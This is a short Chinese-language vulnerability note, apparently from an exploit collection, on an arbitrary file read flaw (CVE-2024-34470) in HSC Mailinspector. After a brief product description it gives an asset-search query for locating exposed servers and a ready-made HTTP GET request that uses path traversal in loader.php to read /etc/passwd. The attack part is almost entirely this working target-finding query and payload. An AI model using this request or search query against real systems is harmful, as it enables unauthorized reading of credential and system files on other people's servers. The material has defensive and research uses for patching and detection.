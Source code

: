 # HSC Mailinspector loader存在任意文件读取漏洞(CVE-2024-34470)

# 一、漏洞简介
HSC Mailinspector是一款邮件安全解决方案，旨在保护企业邮件系统免受垃圾邮件、恶意软件和其他类型的网络威胁。该解决方案可以检测和过滤垃圾邮件、病毒、木马和其他类型的恶意软件，并提供详细的报告和日志记录，以帮助管理员跟踪和分析邮件流量。   HSC Mailinspector loader接口处存在任意文件读取漏洞(CVE-2024-34470)，恶意攻击者可能利用该漏洞读取服务器上的敏感文件，例如客户记录、财务数据或源代码，导致数据泄露。  

# 二、影响版本
+  HSC Mailinspector

# 三、资产测绘
```plain
body="mailinspector/public"
```

![1717748023362-4f8c75dc-fe58-44aa-91b5-bef491d33e17.png](./img/dqMWRZ4U8g1HnlWV/1717748023362-4f8c75dc-fe58-44aa-91b5-bef491d33e17-597820.png)

# 四、漏洞复现
```plain
GET /mailinspector/public/loader.php?path=../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![1717747998713-627b906c-51cb-46d6-8f79-b66ba599ccbe.png](./img/dqMWRZ4U8g1HnlWV/1717747998713-627b906c-51cb-46d6-8f79-b66ba599ccbe-035461.png)



> 更新: 2024-06-11 10:34:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pnb6lpu1pdfurixs>